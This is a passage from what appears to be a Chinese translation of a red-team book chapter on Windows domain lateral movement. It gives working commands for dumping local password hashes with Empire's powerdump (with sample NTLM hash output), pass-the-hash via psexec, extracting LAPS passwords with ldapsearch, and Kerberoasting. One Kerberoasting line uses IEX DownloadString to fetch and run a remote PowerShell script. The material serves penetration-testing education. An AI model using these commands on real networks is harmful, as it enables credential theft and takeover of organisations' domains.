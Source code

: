 - 执行命令： shell net user administrator
- User name    Administrator
- Full Name
- Comment Built-in account for administering the computer/domain
- User’s comment
- Country/region code 000 (System Default)
- **Account active Yes**
- Account expires Never

如果我们看到帐户处于活动状态，我们可以尝试从本地计算机中提取所有哈希值。请记住，这不会包括任何域账户哈希：
- Empire Module: powershell/credentials/powerdump
- Metasploit Module: http://bit.ly/2qzsyDI

例如：
- (Empire: powershell/credentials/powerdump) > execute
- Job started: 93Z8PE

输出：
- Administrator:500:
- aad3b435b51404eeaad3b435b51404ee:3710b46790763e07ab0d2b6cfc4470c1:::
  Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

我们可以使用 Empire（credentials/mimikatz/pth）或者启动可信任的 psexec，提交我们的哈希，并执行我们的自定义 payload，如下图所示：

![](../images/chapter_4/4-40.png)

如前所述，这是一种现在少见的古老的横向移动方式。如果你仍在考虑利用本地管理员帐户，但所处的环境有 LAPS（本地管理员密码解决方案），你可以使用几个不同的将它们从 Active Directory 中转储出的工具。这假设你已经拥有一个域管理员或 Helpdesk 类型帐户的权限：

- https://github.com/rapid7/metasploit-framework/blob/master/modules/post/windows/gather/credentials/enum_laps.rb
- ldapsearch -x -h 10.100.100.200 -D “elon.muskkat” -w password -b “dc=cyberspacekittens，dc=local” “(ms-MCS-AdmPwd=*)” ms-MCSAdmPwd [https://room362.com/post/2017/dump-laps-passwords-with-ldapsearch/]

这是保持横向移动而不注销 Helpdesk 用户帐户的好方法。

### 从服务帐户获取凭据

如果你发现自己处于一个用户权限受限、无法从内存中提取密码、主机系统上没有密码的情况下，该怎么办...接下来该怎么办？好吧，我最喜欢的攻击之一是 Kerberoasting。

我们都知道 NTLM 存在缺陷，这是由于单向哈希（不含盐）、重放攻击和其他传统问题造成的，这也是许多公司转向采用 Kerberos 的原因。如我们所知，Kerberos 是一种安全的方法，用于对计算机网络中的服务请求进行身份验证。我们不会深入研究 Windows 中的 Kerberos 实现。但是，你应该知道域控制器通常充当票据授予的服务器；网络上的用户可以请求票据授予服务器以获取资源访问权的凭证。

什么是最严重的攻击？作为攻击者，我们可以掌握我们之前提取的目标服务帐户的任何 SPN 请求 Kerberos 服务票证。漏洞在于，当从域控制器请求服务票据时，该票证使用关联的服务用户的 NTLM 哈希加密。由于任何用户都可以请求任何票据，这意味着，如果我们可以猜测关联服务用户的 NTLM 哈希（加密票据的）的密码，那么我们现在就知道实际服务帐户的密码。这听起来可能有点令人困惑，所以让我们来看一个例子。

与以前类似，我们可以列出所有的SPN服务。这些是我们将为其提取所有 Kerberos 票据的服务帐户：
- setspn -T cyberspacekittens.local -F -Q */*

我们可以将单个用户的 SPN 作为目标，也可以将所有用户的 Kerberos 票据拉入用户的内存中：
- 针对单个用户：
  - powershell Add-Type -AssemblyName System.IdentityModel;New-Object
    System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList “HTTP/CSK-GITHUB.cyberspacekittens.local”
- 将所有用户票据拖到内存中
  - powershell Add-Type -AssemblyName System.IdentityModel;IEX (New-Object
    Net.WebClient).DownloadString(“ https://raw.githubusercontent.com/nidem/kerberoast/master/GetUserSPNs.ps1 ”)
    | ForEach-Object {try{New-ObjectSystem.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.ServicePrincipalName}catch{}}
- 当然，你也可以使用 powersploit 执行此操作：
  - https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Kerberoast/
